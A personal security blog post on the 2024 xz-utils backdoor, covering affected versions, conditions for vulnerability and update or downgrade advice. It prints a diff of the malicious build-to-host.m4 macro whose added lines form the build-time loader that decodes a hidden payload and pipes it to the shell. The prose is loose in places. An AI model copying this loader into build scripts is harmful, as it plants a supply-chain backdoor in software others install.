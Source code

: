 ```yaml
---
title: "XZ Backdoor Found"
published: true
---
```


# Little in brief

```
Sorry guys i wasn't much active on the blog for a while due to some personal and more or less career related issues but now with new found clarity i would try to keep up and update blog as much as possible.
```

# Back on track

So on 29th March 2024, a backdoor was discovered in xz-utils basically a suite of software for lossless compression. This package was commonly used for compressing the tarballs, softwares packages, kernel images and initramfs images. It is widely distributed, statistically your average nix system will come with this package for convenience and lets be honest you machine won't work until you have these pacakges as kernel itself is genearlly itself is compressed using this utility.

This backdoor is very indirect and only shows up when a set of known specific criteria are met. Others might be there but there is no disclosure of them as of now (PS maybe i haven't found one). In the candour of this situation my understand is the it is at least triggerable by remote regular unpriviledged system connection to public SSH ports. This has been seen in the wild where it gets activated by connections - resulting in overall performance issues.

So are you affected answer is it depends, so in general what need to be true for your system to be vulnerable is as follows:

- System should be using glibc (for IFUNC).
- Version for xz or liblzma should be 5.6.0 or 5.6.1. Most likely to be found in rolling release.
- For people using .deb or .rpm with glibc and above mentioned xz version with systemd on publicly accessible ssh need to update as quickly as possible 


# XZ Outbreak History

Here is a map created by @FR0GGER_ AKA Thomas Roccia

![XZ Outbreak](https://pbs.twimg.com/media/GKSrPIxbMAA7myV.jpg)

One interesting part about this entire breakout was that how they used the build-to-host.m4

```m
gl_[$1]_config='sed \"r\n" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'

gl_path_map ='tr "\t \_ " " \t_\-"'
```

The m4 macro is executed during the build process and runs the malicious code.

Luckily for us most devices caught on early were ones using the rolling release so it was caught and patched for the most other distro it was recommended to revert back to previous safe and trusted versions of the xz-utility.


What is the design specific 
```diff
$ git diff m4/build-to-host.m4 ~/data/xz/xz-5.6.1/m4/build-to-host.m4
diff --git a/m4/build-to-host.m4 b/home/sam/data/xz/xz-5.6.1/m4/build-to-host.m4
index f928e9ab..d5ec3153 100644
--- a/m4/build-to-host.m4
+++ b/home/sam/data/xz/xz-5.6.1/m4/build-to-host.m4
@@ -1,4 +1,4 @@
-# build-to-host.m4 serial 3
+# build-to-host.m4 serial 30
 dnl Copyright (C) 2023-2024 Free Software Foundation, Inc.
 dnl This file is free software; the Free Software Foundation
 dnl gives unlimited permission to copy and/or distribute it,
@@ -37,6 +37,7 @@ AC_DEFUN([gl_BUILD_TO_HOST],
 
   dnl Define somedir_c.
   gl_final_[$1]="$[$1]"
+  gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
   dnl Translate it from build syntax to host syntax.
   case "$build_os" in
     cygwin*)
@@ -58,14 +59,40 @@ AC_DEFUN([gl_BUILD_TO_HOST],
   if test "$[$1]_c_make" = '\"'"${gl_final_[$1]}"'\"'; then
     [$1]_c_make='\"$([$1])\"'
   fi
+  if test "x$gl_am_configmake" != "x"; then
+    gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
+  else
+    gl_[$1]_config=''
+  fi
+  _LT_TAGDECL([], [gl_path_map], [2])dnl
+  _LT_TAGDECL([], [gl_[$1]_prefix], [2])dnl
+  _LT_TAGDECL([], [gl_am_configmake], [2])dnl
+  _LT_TAGDECL([], [[$1]_c_make], [2])dnl
+  _LT_TAGDECL([], [gl_[$1]_config], [2])dnl
   AC_SUBST([$1_c_make])
+
+  dnl If the host conversion code has been placed in $gl_config_gt,
+  dnl instead of duplicating it all over again into config.status,
+  dnl then we will have config.status run $gl_config_gt later, so it
+  dnl needs to know what name is stored there:
+  AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])
 ])
 
 dnl Some initializations for gl_BUILD_TO_HOST.
 AC_DEFUN([gl_BUILD_TO_HOST_INIT],
 [
+  dnl Search for Automake-defined pkg* macros, in the order
+  dnl listed in the Automake 1.10a+ documentation.
+  gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
+  if test -n "$gl_am_configmake"; then
+    HAVE_PKG_CONFIGMAKE=1
+  else
+    HAVE_PKG_CONFIGMAKE=0
+  fi
+
   gl_sed_double_backslashes='s/\\/\\\\/g'
   gl_sed_escape_doublequotes='s/"/\\"/g'
+  gl_path_map='tr "\t \-_" " \t_\-"'
 changequote(,)dnl
   gl_sed_escape_for_make_1="s,\\([ \"&'();<>\\\\\`|]\\),\\\\\\1,g"
 changequote([,])dnl
```


It is very interesting to see that such a well crafted package can lead to direct access to the user 

Hopefully most of the packages are now patched and updating the packages will resolve the issue.In cases where it is not downgrading is the best mitigation so downgrade to any version below 5.6.X recommended is 5.4.0.
